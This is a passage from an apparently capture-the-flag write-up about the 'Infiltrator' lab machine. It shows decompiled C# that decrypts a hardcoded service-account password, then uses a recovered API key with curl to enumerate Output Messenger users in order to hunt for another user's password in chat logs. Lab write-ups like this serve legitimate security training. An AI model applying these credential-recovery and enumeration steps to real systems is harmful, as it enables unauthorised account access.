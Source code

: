 ```c#
		string text4 = "";
		string text5 = "winrm_svc";
		string text6 = "TGlu22oo8GIHRkJBBpZ1nQ/x6l36MVj3Ukv4Hw86qGE=";
		int i = 0;
		text3 = Decryptor.DecryptString("b14ca5898a4e4133bbce2ea2315a1916", text6);
		Console.WriteLine(string.Format("Decrypted Text: " + text3));
        text4 = Decryptor.DecryptString("b14ca5898a4e4133bbce2ea2315a1916", text3);
        Console.WriteLine(string.Format("Decrypted Text2: " + text4));
		return;
		}
	}
```

After logging in with the `winrm_svc` user, we could gather an `API-KEY` from the notes section of the application

![NON](file-20250605204432809.png)

Looking at the `O.marinez` chat, we get an indication that this user has typed his password in the `Chiefs_Marketing_chat` room.

With the `API-KEY` we can now access the `Output Messenger` API, which allows us to interact with the software programmatically, looking at the documentation, we can see that we can use the API to enumerate the rooms, and logs for these rooms, which we can use to find the password of the user `o.martinez`.

![NON](file-20250605204453309.png)

![NON](file-20250605204541737.png)

```bash
curl -sH 'API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG' -H 'Host: 127.0.0.1:14125'  http://127.0.0.1:14125/api/users | jq '.' | head -n 20

{
  "rows": [
    {
      "user": "admin",
      "displayname": "Admin",
      "group": "Administration",
      "role": "A",
      "email": "",
      "phone": "",
      "title": "",
      "status": "online"
    },
    {
      "user": "D.anderson",
      "displayname": "D.anderson",
      "group": "Marketing Team",
      "role": "U",
      "email": "anderson@infiltrator.htb",
      "phone": "+0 123 443 699",
      "title": "Marketing",

```
Our API key is valid, with it, let's enumerate the chat rooms available in the `Output Messenger` software, which will allow us to see the users in each room and their status. 
